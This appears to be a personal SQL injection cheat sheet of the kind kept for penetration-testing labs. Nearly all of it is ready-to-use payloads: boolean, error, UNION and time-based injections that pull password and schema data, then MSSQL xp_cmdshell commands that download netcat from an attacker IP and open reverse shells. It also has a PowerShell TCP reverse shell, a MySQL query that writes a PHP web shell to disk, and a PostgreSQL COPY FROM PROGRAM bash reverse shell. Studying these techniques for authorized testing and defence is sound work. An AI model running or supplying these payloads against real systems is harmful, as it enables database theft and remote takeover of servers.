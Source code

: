 # in-band SQLi
## boolean-Based
or 1=1
```
' OR 1=1 -- //
```

## error-based
Enumeration
```
' OR 1=1 IN (QUERY) -- //
```

example: attempting to retrieve the users table
```
' OR 1=1 in (SELECT password FROM users) -- //
```

## UNION-based
step1
explorer number of columns
```
' ORDER BY 1 -- //
```

step2
Displaying the exact number of columns
```
%' UNION SELECT 'a1', 'a2', 'a3', 'a4', 'a5' -- //
```

step3
Retrieving Current Database Tables and Columns
```
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```

# Blind SQLi

## boolean-based
true = display
```
' AND 1=1 -- //
```

false = no display
```
' AND 1=2 -- //
```

## time-based
**TRUE** → Response is delayed (e.g., 5 seconds)
**FALSE** → Response is immediate (no delay)
```
' AND IF(1=2, SLEEP(5), 'false') -- //
```
# RCE

## MSSQL
### xp_cmdshell 設定  
```
' EXECUTE sp_configure 'show advanced options', 1; -- - //
' RECONFIGURE; -- - //
' EXECUTE sp_configure 'xp_cmdshell', 1; -- - //
' RECONFIGURE; -- - //
```

### xp_cmdshell 実行例
#### download nc.exe
```
' EXEC xp_cmdshell 'certutil -urlcache -f http://192.168.45.180/nc64.exe c:/windows/temp/nc64.exe'; -- - //
```

#### reverseshell (nc64.exe)
```
' EXEC xp_cmdshell 'c:/windows/temp/nc64.exe 192.168.45.180 443 -e cmd.exe'; -- - //
```
#### reverse shell (powershell)
```
' EXEC xp_cmdshell 'powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.x.x',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + ''PS '' + (pwd).Path + ''> '';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"'-- - //
```
#### encoded reverse shell
```
' EXEC xp_cmdshell 'powershell -nop -enc "BASE64 PAYLOAD"'-- - //
```

## MySQL

write a webshell to disk
```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "<web server default path>/webshell.php" -- //
```

access url
```
http://192.168.x.x/tmp/webshell.php?cmd=ls
```

## PostgresSQL
one liner
```
; DROP TABLE IF EXISTS cmd_exec; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'bash -c "bash -i >& /dev/tcp/192.168.45.232/4444 0>&1"'; SELECT * FROM cmd_exec; -- //
```